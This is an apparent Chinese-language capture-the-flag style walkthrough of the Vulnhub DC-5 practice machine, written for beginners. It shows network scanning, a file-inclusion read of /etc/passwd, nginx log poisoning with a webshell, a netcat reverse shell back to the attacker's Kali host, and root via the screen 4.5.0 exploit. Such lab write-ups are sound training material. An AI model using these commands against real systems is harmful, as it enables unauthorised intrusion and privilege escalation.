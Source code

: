 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/3cR0X3-YMdInt7zNjzxO8g)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。DC-5 全程只有一个 falg，获取 root 权限，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

Download (Mirror): 

https://download.vulnhub.com/dc/DC-5.zip

目标机 IP 地址：192.168.5.140  
攻击机 kali IP 地址：192.168.5.135

arp-scan -l 发现目标 ip。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT08TFHbica0M7o5yERYL72ibgGEvC0Z0c8fXRvicvIT4yGPwtzjBooJIzIQ/640?wx_fmt=png)

nmap 端口扫描，开发了 80 端口。  

nmap -sV -p- 192.168.5.140

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0E6vBI6Xm8GZCSqxiar6VZh59WFzkM9NuW13EWLFXtNu0hjoHr1Ics2A/640?wx_fmt=png)

访问 80 端口。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0SMKmBgypf9sIbHknhmmxHHQOky74mKrYJQorCuuHuGCJcpMh1TiaKtg/640?wx_fmt=png)

观察到版权标识后的年份刷新后会发生变化，怀疑是该站点有文件包含漏洞，包含了某个文件，然后渲染到页面中。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASdzzemawMzJodhmBVsnxBEfZBvZKkhXpvQpANGvB5HNwwKDhkVwaPJg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASklVFuHC9iaws6ZMDxwNWlWeVfQ5CDIvg3z3KaCHnF8yrDjZpKt45mxA/640?wx_fmt=png)

爆破后得知该页面通过可控参数 file 来包含其他文件。  

http://192.168.5.140/thankyou.php?file=/etc/passwd 

确定存在文件包含漏洞。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASkT7fpVcVUY16KiamvibnXgm3XAIria6hPy5GBAXDB3QL2ppcon5MwENRA/640?wx_fmt=png)

/var/log/nginx/error.log Nginx 日志文件，将一句话写入到日志文件里。

写入一句话成功后，蚁剑链接。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT06k5AWLDdjbF0959Kpiau6Vraue91uLCXjVjx6ctKicTCEoPa4GTXd1eQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0ovEjFEoq04vStmzqicWYOUBuXq7YzqwMZorRr6RdpBzpQ8Z0icnmLeIA/640?wx_fmt=png)

反弹 shell。

 nc -e /bin/bash 192.168.5.135 7777

 并转换交互模式。

python -c 'import pty;pty.spawn("/bin/bash")'  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT08lxmDicok4lZVjbU9xgxKmCLkRwkfKLcgeC6wp8pKuFDU7GPzNMCT5A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT09gCHuoZBnUIDjN6sbYPYibPSNZMvgke4ntGLvKBeRhyy7AxQ7aJJ84w/640?wx_fmt=png)

查找一下可以用 root 权限运行的命令；

find / -perm -u=s -type f 2>/dev/null

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0P4ESULOKKclibQicHW5Kuvx4PPQiaZLibYL3vlIfv2dYWoMX3HzCicUwoYQ/640?wx_fmt=png)

发现 screen 4.5.0， screen 4.5.0 是由提权漏洞的，搜索利用方式。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0o6LiaREDALWQ1KgXhRPHG5rnnAguy2NxYpxFHgHtHwpFgHWY73zZorg/640?wx_fmt=png)

搜索文件位置查看利用方式。  

/usr/share/exploitdb/exploits/linux/local/41154.sh

chmod 777 41154.sh 

重新设置文件格式。

:set:ff 回车  

:set ff=unix

:wq

41154.sh 脚本中分三部分，将第一部分、第二部分的 c 语言代码抽离，独立保存，根据里面的提示进行编译。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0icUcIINnelzTN0G2a8iaRhPaL04iaQ86R1sUkguR1uPwnc1gXceicV6RWw/640?wx_fmt=png)

将第一部分 C 语言代码保存到 libhax.c。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASCq5I3WBus64FT9nWDP5aSwKm3cRcGnMVt52EaH3ussvB5JeTeXIQHg/640?wx_fmt=png)

根据提示进行编译，编译后删除源文件。  

gcc -fPIC -shared -ldl -o libhax.so libhax.c 

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASqeUItJtru5P7lnrBzkGHGaD32FyRZj9hnS8lJ3goWnFlXPT1CbtWrQ/640?wx_fmt=png)

把下面部分 c 语言代码也单独复制出来取文件名为 rootshell.c。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASLKxFGmxjD9slvXmWYNDTxFgbrj70HDoXX8gXkVn6Wc6W6qCIqjibV8g/640?wx_fmt=png)

根据提示进行编译，编译后删除源文件。

gcc -o rootshell rootshell.c

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASDyjw140vweBzNMBvZcLfiaiaY1A2YAGD3YPFcrClJ7R9dts45pNSzicNQ/640?wx_fmt=png)

将 41154.sh 进行修改，并且改名为 dc5.sh。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASNtxxTz40tq3XMVEPAkOLtQ6HfjesOaoxw5SIGmHiaxsRZm8wa8s4Bicg/640?wx_fmt=png)

开启 ftp 服务：  

apt-get install vsftpd

vsftpd 服务开启 ftp。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0OAb25BLecovVHPVhQG9IwXb2R5vSBZu658YG6hFia218ibErjB8P6Iyg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASXDuG3JwrOGN2Cmn8icibU8J2gUic4Iube9ZEWibD4icP1A0uBn66mT5wLBw/640?wx_fmt=png)

查看文件的权限。/tmp 下文件可任意读写，ftp 链接，将编译好的文件下载到本地 / tmp 下。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASKJE3N8VicZicTHhMbUV87AS9K6iaADrhXpMicd6T2iaPEOVGcB7fiaoiaG7rQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT03Nuhpwp9XjNGNZPNfLPgLMAicnuKpXcIlSgia78I18cibaLiaMJkSB4s2Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24aeMoWonbLTVoaGVCpKyT0y8M0lPRDsXiczsLBoand0Jtjiao4KEYggFretIowE36t46ic6wpW1gFgQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASUWYWYOeKzJHcb9P8PLibFibUfYsmxP6BU4lciaBanExRCE3W1UZaUR9hQ/640?wx_fmt=png)

chmod +x dc5.sh 执行权限，然后执行。/dc5.sh 获取 root 权限。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuAS4n9vJeWvKPyGT26ynmkwpibQFtOmN0wkYolQzIOuFDKWz2QF9BJnbpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASdIcibEmBx2vkKvTgE5AlmcplQuqm6A1icCb6BwoGH3l9oxcbibRCsjWjA/640?wx_fmt=png)